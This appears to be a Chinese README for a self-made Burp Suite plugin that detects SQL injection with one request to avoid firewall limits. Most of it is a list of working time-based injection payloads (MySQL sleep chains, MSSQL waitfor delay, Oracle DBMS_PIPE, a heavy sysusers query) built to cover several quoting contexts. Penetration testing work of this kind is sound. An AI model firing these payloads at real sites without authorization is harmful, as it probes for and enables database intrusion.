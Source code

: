 # 0x00 前言
Burp自带的SQLi扫描，发送的burp感觉有点多，在有waf的情况下，收到极大的限制。所以写一款适合自己的SQLi扫描插件（只发送一次数据包）。

# 0x01 检测原理
检测时间注入(减少发包量)，报错型注入(检测页面是否有sql错误提示，不需要发包)。
采用的payload是`11^%0axor(sleep(5))#'xor(sleep(5))#"^xor(sleep(5))#'`，浏览器中``11%0axor(sleep(5))%23'xor(sleep(5))%23"xor(sleep(5))%23'``,这样可以一次性检测数字型、字符型使用`'`或`"`作为分隔符的字符型)注入。不过`Insert`、`Limit`、`()`等一些注入，还没有找到好的办法进行检测。

payload
`11%0axor(sleep(5))%23'xor(sleep(5))%23"xor(sleep(5))%23'`

`5%0axor%0asleep(5)/*'xor%0asleep(5)xor%0a'"xor%0asleep(5)xor%0a"*/`

`5%0a-%0asleep(5)/*'-%0asleep(5)-%0a'"-%0asleep(5)-%0a"*/`

`5-SLEEP(5)/*'-SLEEP(5)-'"-SLEEP(5)-"*/`

`') waitfor delay '0:0:5' --`
`) waitfor delay '0:0:5' --`

`OR 8003=DBMS_PIPE.RECEIVE_MESSAGE(CHR(110)||CHR(99)||CHR(76)||CHR(110),5)`

`' OR 8003=DBMS_PIPE.RECEIVE_MESSAGE(CHR(110)||CHR(99)||CHR(76)||CHR(110),5) AND 'jmBZ'='jmBZ`

`') OR 8003=DBMS_PIPE.RECEIVE_MESSAGE(CHR(110)||CHR(99)||CHR(76)||CHR(110),5) AND ('jmBZ'='jmBZ`


` AND 8003=DBMS_PIPE.RECEIVE_MESSAGE(CHR(110)||CHR(99)||CHR(76)||CHR(110),5)`

`' AND 8003=DBMS_PIPE.RECEIVE_MESSAGE(CHR(110)||CHR(99)||CHR(76)||CHR(110),5) AND 'jmBZ'='jmBZ`

`') AND 8003=DBMS_PIPE.RECEIVE_MESSAGE(CHR(110)||CHR(99)||CHR(76)||CHR(110),5) AND ('jmBZ'='jmBZ`

` and 1733=(SELECT COUNT(*) FROM sysusers AS sys1,sysusers AS sys2,sysusers AS sys3,sysusers AS sys4,sysusers AS sys5,sysusers AS sys6,sysusers AS sys7,sysusers AS sys8,sysusers AS sys9)  -- ' and 1= (SELECT COUNT(*) FROM sysusers AS sys1,sysusers AS sys2,sysusers AS sys3,sysusers AS sys4,sysusers AS sys5,sysusers AS sys6,sysusers AS sys7,sysusers AS sys8,sysusers AS sys9) -- s`

